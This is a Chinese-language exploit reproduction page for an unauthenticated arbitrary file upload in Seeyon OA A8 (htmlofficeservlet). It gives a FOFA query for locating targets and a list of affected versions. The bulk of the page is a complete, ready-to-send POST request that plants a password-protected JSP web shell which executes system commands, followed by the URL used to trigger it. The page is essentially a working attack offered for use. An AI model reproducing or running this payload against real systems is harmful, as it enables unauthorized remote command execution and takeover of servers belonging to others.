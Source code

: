 # 致远OA A8 htmlofficeservlet 任意文件上传漏洞

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## FOFA

<a-checkbox checked>title="致远A8-V5协同管理软件 V6.1sp1"</a-checkbox></br>

## 影响版本

<a-checkbox checked>致远A8-V5协同管理软件V6.1sp1</a-checkbox></br>

<a-checkbox checked>致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3</a-checkbox></br>

<a-checkbox checked>致远A8+协同管理软件V7.1</a-checkbox></br>

## 漏洞复现

访问目标站点

```
/seeyon/htmlofficeservlet
```

出现如下图响应，则可能含有漏洞

![img](../../../.vuepress/public/img/zhiyuan-1.png)



使用POST请求发出如下请求包

```plain
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("
<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![img](../../../.vuepress/public/img/zhiyuan-2.png)



出现如图响应则为上传成功,访问 

```
/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir
```

![img](../../../.vuepress/public/img/zhiyuan-3.png)